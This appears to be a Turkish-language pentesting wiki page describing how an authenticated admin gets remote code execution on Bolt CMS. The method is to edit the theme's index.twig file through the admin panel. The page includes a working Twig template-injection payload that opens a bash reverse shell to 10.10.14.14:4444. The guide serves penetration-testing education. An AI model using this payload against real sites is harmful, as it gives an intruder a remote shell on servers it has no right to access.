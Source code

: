 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Admin olarak giriş yaptıktan sonra (giriş istemine erişmek için /bot adresine gidin), Bolt CMS'de RCE alabilirsiniz:

- `Configuration` -> `View Configuration` -> `Main Configuration` seçeneğini seçin veya URL yoluna gidin `/bolt/file-edit/config?file=/bolt/config.yaml`
- Tema değerini kontrol edin

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- `File management` -> `View & edit templates` seçeneğini seçin
- Önceki adımda bulunan tema tabanını seçin (`base-2021` bu durumda) ve `index.twig` seçeneğini seçin
- Benim durumumda bu URL yolunda /bolt/file-edit/themes?file=/base-2021/index.twig
- Bu dosyada yüklemenizi [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php) ile ayarlayın, örneğin: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- Ve değişiklikleri kaydedin

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- `Maintenance` -> `Clear the cache` seçeneğinde önbelleği temizleyin
- Sayfaya tekrar normal bir kullanıcı olarak erişin ve yükleme çalıştırılmalıdır

{{#include ../../banners/hacktricks-training.md}}
